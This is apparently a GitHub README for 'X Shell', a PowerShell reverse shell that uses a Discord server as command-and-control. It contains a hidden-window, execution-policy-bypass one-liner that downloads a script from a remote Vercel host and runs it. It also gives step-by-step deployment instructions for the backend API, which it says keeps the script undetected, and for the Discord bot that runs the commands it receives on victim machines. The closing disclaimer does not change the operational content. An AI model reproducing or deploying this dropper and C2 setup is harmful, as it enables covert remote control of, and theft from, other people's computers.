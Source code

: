 ![banner](/src/banner.png)
# X Shell

X Shell is a PowerShell-based reverse shell that uses a Discord server as its command-and-control (C2) infrastructure. It dynamically creates a dedicated Discord channel for each user who executes the script, allowing for organized command execution and response tracking.

## How It Works
Revshell X consists of three main components:

### 1. **PowerShell Dropper**
Windows 11 limits certain execution options, such as `-windowStyle hidden` when run from the Run dialog (`Win + R`). To bypass this, Revshell X uses a lightweight **dropper**. This dropper retrieves the actual PowerShell script from a remote API and executes it.

To deploy the reverse shell on a target machine, simply execute the following PowerShell command:
```powershell
powershell -W Hidden -Exec Bypass -c "$r = iwr https://xyz.vercel.app/ -H @{'Authorization'='Bearer xyzxyz'}; iex $r.Content"
```
This command downloads and executes the dropper, which in turn fetches and runs the main script.

### 2. **Backend API**
The backend API authenticates requests and responds with the full PowerShell script when properly requested. This allows the script to remain undetected on the target machine until execution. The API is responsible for:
- Serving the **dropper script** upon request.
- Returning the **full reverse shell script** to authenticated requests.

#### **Deploying the API**
The full API code is located under the `/API/` directory. To deploy it, follow these steps:
1. **Create a private GitHub repository** and upload all files from the `/API/` directory.
2. **Deploy to Vercel** by linking your GitHub repository to [Vercel](https://vercel.com/).
3. **Update `index.js` in the API**:
    - Modify **lines 27 and 28** to set authentication tokens.
    - Modify **lines 30 and 35** to return the correct PowerShell script.
4. **Deploy the API** and note the generated URL.

### 3. **Discord C2 Server**
The core reverse shell logic uses a **Discord bot** to communicate with a designated **Discord server**. When the script runs, it:
- Creates a new **private channel** in a predefined category.
- Reads messages from the channel for incoming commands.
- Executes the received PowerShell commands on the target machine.
- Returns command output back to the channel.

## Requirements
To set up Revshell X, you will need:
- A **Discord server**
- A **Discord bot** with appropriate permissions
- The **Channel ID** and **Category ID** where channels will be created
- The **API URL** for the dropper

## Installation & Setup
1. **Create a Discord bot**
    - Go to the [Discord Developer Portal](https://discord.com/developers/applications)
    - Create a new bot and get its **token**
    - Assign necessary permissions (Manage Channels, Read Messages, Send Messages, etc.)

2. **Set up the API**
    - Deploy the API using the steps mentioned above.
    - Ensure the API logs or restricts access securely.

3. **Modify the script with your bot details**
    - Update `$t`, `$s`, and `$categoryID` in the script.

4. **Deploy the dropper**
    - Use the provided PowerShell one-liner to execute the dropper.

## [Discord Server Template](https://discord.new/AFkzNqmAdmex)
For convenience, a preconfigured **Discord server template** is provided, which includes:
- A category for dynamically created channels
- Logging channels (optional)

## Disclaimer
This tool is intended for **educational and authorized testing purposes only**. Unauthorized use of this software is illegal and may result in criminal charges. Use responsibly.

